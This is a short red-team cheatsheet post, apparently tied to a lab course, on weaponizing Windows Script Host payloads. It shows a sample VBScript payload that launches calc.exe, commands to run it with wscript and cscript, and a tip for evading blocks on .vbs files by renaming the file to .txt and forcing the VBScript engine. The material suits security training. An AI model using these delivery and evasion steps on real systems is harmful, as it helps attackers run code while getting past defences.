 ```yaml
---
title: "[Knowledge] Weaponization and Payloads"
author: Tri Nguyen
date: 2022-05-09 12:00:00 -0700
categories: [Tool, Knowledge, Cheatsheet, RedTeam]
tags: [tool, knowledge, cheatsheet, redteam]
pin: true
---
```


## Windows Scripting Host (WSH)

- A sample payload
```
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
```

- To run the payload from the CMD
```terminal
c:\Windows\System32>wscript "c:\Users\thm\Desktop\payload.vbs"
```
```terminal
c:\Windows\System32>cscript.exe "c:\Users\thm\Desktop\payload.vbs"
```

> Run vbs if it's blocked by renaming the file to .txt
{: .prompt-tip }

```terminal
c:\Windows\System32>wscript /e:VBScript "c:\Users\thm\Desktop\payload.txt"
```